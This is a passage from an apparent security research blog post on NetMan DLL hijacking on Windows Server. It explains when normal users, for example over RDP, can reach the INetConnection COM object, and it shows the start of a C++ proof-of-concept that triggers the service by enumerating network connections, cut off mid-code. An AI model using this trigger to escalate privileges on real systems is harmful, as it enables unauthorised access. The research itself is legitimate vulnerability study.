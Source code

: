 What this actually means is that this COM object can be used by normal users __only if__ they are authenticated using an __interactive session__. More specifically, you'd need to logon locally on the server. Not very useful, right?! Well, it turns out that when you connect through RDP (this includes VDI), you get an interactive session as well so, under these circumstances, this COM object could be used by a normal user. Otherwise, if you tried to use it in a WinRM session for example, you'd get an "Access denied" error. That's not as good as I expected initially but that's still a seemingly interesting trigger.

The below screenshot shows a command prompt opened in an RDP session on Windows Server 2019.

![](/assets/posts/2020-04-10-windows-server-netman-dll-hijacking/12_rdp-user-groups.png)

At this point, the research part is over so let's write some code! Fortunately, the `INetConnection` interface is documented ([here](https://docs.microsoft.com/en-us/windows/win32/api/netcon/nn-netcon-inetconnection)). This makes things a lot easier. Secondly, while searching how to enumerate the network interfaces with `INetConnection->EnumConnections()`, I stumbled upon an interesting solution posted by [Simon Mourier](https://stackoverflow.com/users/403671/simon-mourier) on StackOverflow [here](https://stackoverflow.com/questions/5917304/how-do-i-detect-a-disabled-network-interface-connection-from-a-windows-applicati/5942359#5942359). Yes, I copied some code from StackOverflow, that's a bit lame, I know... :neutral_face:

Here is _my_ final Proof-of-Concept code:

```cpp
// https://stackoverflow.com/questions/5917304/how-do-i-detect-a-disabled-network-interface-connection-from-a-windows-applicati/5942359#5942359

#include <iostream>
#include <comdef.h>
#include <netcon.h>

int main()
{
    HRESULT hResult;

    typedef void(__stdcall* LPNcFreeNetconProperties)(NETCON_PROPERTIES* pProps);
    HMODULE hModule = LoadLibrary(L"netshell.dll");
    if (hModule == NULL) { return 1; }
    LPNcFreeNetconProperties NcFreeNetconProperties = (LPNcFreeNetconProperties)GetProcAddress(hModule, "NcFreeNetconProperties");

    hResult = CoInitializeEx(0, COINIT_MULTITHREADED);
    if (SUCCEEDED(hResult))
    {
        INetConnectionManager* pConnectionManager = 0;
        hResult = CoCreateInstance(CLSID_ConnectionManager, 0, CLSCTX_ALL, __uuidof(INetConnectionManager), (void**)&pConnectionManager);
        if (SUCCEEDED(hResult))
```